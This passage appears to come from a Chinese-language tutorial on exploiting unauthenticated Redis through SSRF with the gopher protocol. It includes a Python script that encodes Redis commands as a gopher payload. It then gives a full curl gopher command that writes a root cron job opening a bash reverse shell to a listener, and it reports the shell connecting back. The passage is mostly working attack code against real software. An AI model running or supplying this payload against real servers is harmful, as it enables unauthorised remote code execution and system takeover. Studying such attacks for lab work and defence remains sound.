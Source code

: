 ## 利用gopher进行攻击

然后将数据转换成gopher协议的格式

```
#coding: utf-8
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        elif line[-3:-1] == r'\r':
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                line = line.replace('\n', '')
                exp = exp + line
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp
```

![](redis未授权访问与ssrf利用\8.png)



然后在本地先监听23333端口

再利用curl发送payload

```
curl -v 'gopher://192.168.85.132:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$67%0d%0a-e %0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.85.128/23333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

等待一会，就能看到nc接到了反弹回来的shell

![](redis未授权访问与ssrf利用\9.png)
